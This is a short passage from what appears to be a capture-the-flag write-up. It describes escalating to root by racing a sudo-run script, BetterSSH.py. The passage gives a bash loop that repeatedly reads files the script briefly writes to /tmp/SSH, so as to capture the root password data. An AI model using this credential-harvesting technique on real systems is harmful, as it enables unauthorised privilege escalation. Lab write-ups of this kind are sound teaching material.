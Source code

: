 ```python
        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

It right to some tmp directory for a sec so we can use watch

```bash
robert@obscure:~$ while sleep 0.1; do cat /tmp/SSH/* 2>/dev/null; done
```

Then

```bash
sudo -u root /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

![](images/betterSSH.png)

![](images/root-pass.png)
